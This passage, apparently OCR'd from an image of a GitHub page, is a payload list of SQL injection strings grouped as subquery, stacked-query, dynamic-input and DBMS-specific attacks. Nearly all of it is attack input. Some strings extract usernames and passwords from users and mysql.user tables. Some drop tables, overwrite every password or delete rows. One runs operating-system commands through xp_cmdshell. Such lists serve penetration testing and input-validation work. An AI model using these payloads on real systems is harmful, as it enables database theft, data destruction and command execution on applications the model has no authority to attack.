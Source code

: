 
2. Subquery Injection

      
```
1. ' AND (SELECT username FROM users WHERE username='admin') IS NOT NULL; -- 
2. ' AND (SELECT COUNT(*) FROM (SELECT * FROM users) AS subquery) > 0; -- 
3. ' AND (SELECT password FROM users WHERE id=(SELECT MIN(id) FROM users)) = 'password'; -- 
4. ' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username='admin') = 'a'; -- 
5. ' AND (SELECT 1 WHERE EXISTS (SELECT * FROM users))=1; -- 
6. ' AND (SELECT MAX(id) FROM users) >= 1; -- 
7. ' AND (SELECT username FROM users WHERE id=(SELECT TOP 1 id FROM users))='admin'; -- 
8. ' AND (SELECT COUNT(*) FROM (SELECT * FROM orders) AS temp) = 1; -- 
9. ' AND (SELECT @@version) LIKE '%MySQL%'; -- 
10. ' AND (SELECT (SELECT COUNT(*) FROM users) > (SELECT COUNT(*) FROM admins)) = TRUE; -- 
```
    

3. Stacked Queries with Error Handling

      
```
1. '; SELECT * FROM users; -- 
2. '; DROP TABLE non_existing_table; -- 
3. '; SELECT 1; SELECT (SELECT username FROM users) -- 
4. '; SELECT database(); SELECT user(); -- 
5. '; SELECT NULL; SELECT COUNT(*) FROM products; -- 
6. '; CREATE TABLE test (id INT); SELECT * FROM test; -- 
7. '; UPDATE users SET password='new_pass'; -- 
8. '; EXEC xp_cmdshell('dir'); -- 
9. '; DELETE FROM users WHERE username='guest'; SELECT * FROM users; -- 
10. '; SELECT 1; SELECT 2; DROP TABLE test; -- 
```
    

4. Dynamic Input Injection

      
```
1. ' OR (SELECT 'valid' FROM users WHERE username='admin')='valid'; -- 
2. ' OR (SELECT COUNT(*) FROM users WHERE email='test@example.com') > 0; -- 
3. ' OR (SELECT COALESCE((SELECT password FROM users WHERE username='admin'), 'NULL')) IS NOT NULL; -- 
4. ' OR (SELECT CASE WHEN (1=1) THEN 1 ELSE 0 END) = 1; -- 
5. ' OR (SELECT USER()) = 'user'; -- 
6. ' OR (SELECT 1 FROM users GROUP BY username HAVING COUNT(*) > 0); -- 
7. ' OR (SELECT name FROM products WHERE id=(SELECT MIN(id) FROM products))='product_name'; -- 
8. ' OR (SELECT COUNT(*) FROM (SELECT id FROM users) AS temp) > 0; -- 
9. ' OR (SELECT CONCAT(username, ':', password) FROM users LIMIT 1) IS NOT NULL; -- 
10. ' OR (SELECT LENGTH(password) FROM users WHERE username='admin') > 0; -- 
```
    

5. Database Management System-Specific Payloads

      
```
1. ' UNION SELECT table_name FROM information_schema.tables; -- 
2. ' UNION SELECT user(), password FROM mysql.user; -- 
3. ' OR 1=1; SELECT pg_sleep(5); -- 
4. ' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME='users'); -- 
5. ' OR (SELECT database()) = 'dbname'; -- 
6. ' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'; -- 
7. ' UNION ALL SELECT NULL, @@version; -- 
8. ' OR (SELECT count(*) FROM sysobjects WHERE xtype='U') > 0; -- 
9. ' AND (SELECT @@version) IS NOT NULL; -- 
10. ' UNION SELECT COUNT(*), GROUP_CONCAT(username) FROM users; -- 
```
    